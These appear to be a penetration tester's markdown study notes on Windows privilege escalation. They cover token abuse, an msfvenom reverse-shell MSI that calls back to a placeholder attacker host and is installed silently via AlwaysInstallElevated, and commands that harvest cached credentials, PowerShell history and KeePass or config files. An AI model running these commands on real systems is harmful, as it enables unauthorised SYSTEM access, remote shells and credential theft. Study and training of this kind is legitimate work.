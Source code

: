 # 03b. Windows Privilege Escalation
## Resources
- [[PE Enumeration]]
- [[PE Attacks]]
- [Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
- [Hacktricks Checklist](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)

## Low Hanging Fruit
**Token Abuse**
- `whoami /priv` >> `SeImpersonatePrivilege`
- Use `PrintSpoofer` or `GodPotato`

**Check AlwaysInstallElevated Registry**
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` if returns with `0x1` make an MSI, it'll run as SYSTEM
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_ip LPORT=LOCAL_PORT -f msi -o malicious.msi`
- `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

**Cached Credentials**
- `cmdkey /list`

**Powershell History**
- `Get-History` 
* `(Get-PSReadlineOption).HistorySavePath`
-  `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`


## Checklist
- **Get context, users, groups**
	- `whoami` `net user` `net group` `whoami /groups`
- **Check for tokens/privileges**
	- `whoami /priv` >> `SeImpersonatePrivilege`
- **Check registry keys**
	- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` >> `0x1`
- **Check for cached creds**
	- `cmdkey /list`
- **Check PowerShell History**
	- `(Get-PSReadlineOption).HistorySavePath`
- **Check running services for Unquoted or Non-default locations**
	- `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
- **Check for non-default binaries looking for .dll files (like log files too)**
	- `C:\TEMP\???` `C:\Users\user\???` `C:\backup\???` etc
- **Check for useful files in User's directory**
	- `Get-ChildItem -Path C:\Users\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue`
	- `*.log` `*.kdbx` `*.xml` literally any weird files in user's directory
- **Check for scheduled tasks run by higher level**
	- `Get-ScheduledTask` `schtasks /query` `schtasks /query /fo LIST /v`
- **Check for database files**
	- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
- **Check for config files**
	- `Get-ChildItem -Path C:\ -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- **Check installed packages**
	- `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
	- `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
